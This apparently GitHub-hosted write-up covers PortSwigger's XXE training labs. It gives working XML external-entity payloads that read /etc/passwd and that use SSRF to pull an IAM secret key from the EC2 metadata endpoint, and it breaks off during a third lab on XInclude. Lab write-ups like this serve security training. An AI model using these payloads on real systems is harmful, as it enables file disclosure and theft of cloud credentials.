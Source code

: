### PortSwigger Labs

#### Exploiting XXE using external entities to retrieve files

> This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
>
> Inject an XML external entity to retrieve the contents of the /etc/passwd file.

After selecting the 'Check Stock' button we see the below request body in Developer Tools

```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>20</productId><storeId>1</storeId></stockCheck>
```

Payload used when editing and re-sending the request

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]><stockCheck><productId>&read;</productId><storeId>1</storeId></stockCheck>
```

#### Exploiting XXE to perform SSRF attacks

> The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
>
> Exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

After selecting the 'Check Stock' button we see the below request body in Developer Tools

```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Payload used when editing and re-sending the request after iteratively appending to `/latest/meta-data/` in the URL request

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]> <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

#### Exploiting XInclude to retrieve files

> Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
>
> To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.

After selecting the 'Check Stock' button we see the below request body in Developer Tools
